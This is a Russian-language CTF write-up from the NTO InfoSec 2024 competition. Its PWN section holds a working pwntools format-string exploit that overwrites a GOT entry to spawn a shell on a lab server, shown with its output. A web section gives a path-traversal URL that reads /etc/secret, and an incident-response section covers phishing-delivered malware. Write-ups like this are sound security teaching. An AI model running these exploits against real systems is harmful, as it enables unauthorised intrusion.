 # NTO-InfoSec-2024-writeups
# Команда "two_raccoons_enough"
____
# Task based
## PWN
### 10 баллов
Залив исходники в дизассемблер, мы можем заметить функцию `win()`, которая возвращает  `/bin/sh`, способный дать нам контроль над машиной. В функции `main()` содержится memory unsafe `printf(format: &var_418)`, уязвимая к f-strings. 
```shell
┌──(kali㉿KaliOlymp)-[~/Downloads]
└─$ nc 192.168.12.13 1923        
%x %x %x %x
78252078 fbad2088 15a62ac 0
```
Проверив эту гипотезу, мы приступили к редактированию кода, который использовался в райтапах на подобную задачу, [найденного на CTFTime](https://ctftime.org/writeup/33272).
```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Этот код не работал и не совсем подходил для нашего таска, поэтому пришлось его отредактировать
```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF("/home/kali/Desktop/main")
r = ROP(e)

gs = '''
continue
'''

def start():
    return remote('192.168.12.13', 1923)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Эксплоит успешно передал управление функции `win()`, которая дала нам полный доступ к уязвимой машине
```shell
┌──(kali㉿KaliOlymp)-[~/Desktop]
└─$ python exploit.py -h ./main
[*] '/home/kali/Desktop/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 4 cached gadgets for '/home/kali/Desktop/main'
[+] Opening connection to 192.168.12.13 on port 1923: Done
[*] Switching to interactive mode
```
```shell
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
main
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
nto{easy_formt_string}
$  
```
Мы получили флаг: **nto{easy_formt_string}**
____
## Web 
### 10 баллов
На сайте мы сразу же видим число 20, на которое можно нажать. Нажав мы видим `Hint_1 maybe in etc/secret ???`.
Это явный намёк на LFI. Просто меняем путь в строке на http://192.168.12.10:5001/download?file_type=../../../../etc/secret и получаем флаг:
**nto{P6t9_T77v6RsA1}**
____
## Crypto
### 10 баллов
____
## Расследование инцидента
____
### Машина на Windows
____
#### Вопросы
- [X] Каким образом вредоносное ПО попало на компьютер пользователя? Стоимость: 5
- [x] С какого сервера была скачана полезная нагрузка? Стоимость: 5
- [x] С помощью какой уязвимости данное ВПО запустилось? В каком ПО? Стоимость: 5
- [x] Какие методы противодействия отладке использует программа? Стоимость: 10
- [x] Какой алгоритм шифрования используется при шифровании данных? Стоимость: 10
- [ ] Какой ключ шифрования используется при шифровании данных? Стоимость: 25
- [ ] Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? Стоимость: 20
- [ ] Каково содержимое расшифрованного файла pass.txt на рабочем столе? Стоимость: 40
____
#### Ответы
 + `Вредоносное ПО было загружено из фишингового письма по почтовой рассылке`
 + ![9db72216-d991-4b9e-8c0a-d85e8c3f1560_Screenshot_2024-03-21_15-38-04](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/b5f2e878-a705-41dd-8707-783f7566b5d7)
 + `Запустилось в WinRar(е) . Открыв приложение LastActivityView находим что прямо перед тем как запустился Rjomba.exe Запустился винрар и вызвалась командная строка. Подробности на скрине` 
 + `Вирус моментально закрывает процесс монитор и процесс хакер`
 + `Вирус использует алгоритм блочного шифрования AES CBC` ![71f20a33-1011-42fb-b6d9-d7bd25b93d85_Screenshot_2024-03-21_17-43-19](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/0d5de590-41aa-4686-ae00-9400ea387b1d)

